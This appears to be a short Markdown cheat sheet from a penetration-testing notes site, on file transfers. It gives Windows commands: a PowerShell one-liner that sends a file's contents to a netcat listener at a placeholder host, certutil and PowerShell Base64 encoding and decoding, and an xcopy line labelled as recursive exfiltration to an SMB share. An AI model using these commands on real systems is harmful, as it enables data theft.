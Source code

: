 ```yaml
---
layout: default
title: File Transfers
---
```


# File Transfers
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Linux

---

## Windows
Powershell Send File to Netcat
```shell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```

Base 64 Encoding
```shell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```shell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```

Exfill files recursively
```shell
xcopy /c /h /r /s /y <source> <smb destination>
```
- e.g. `C:\*`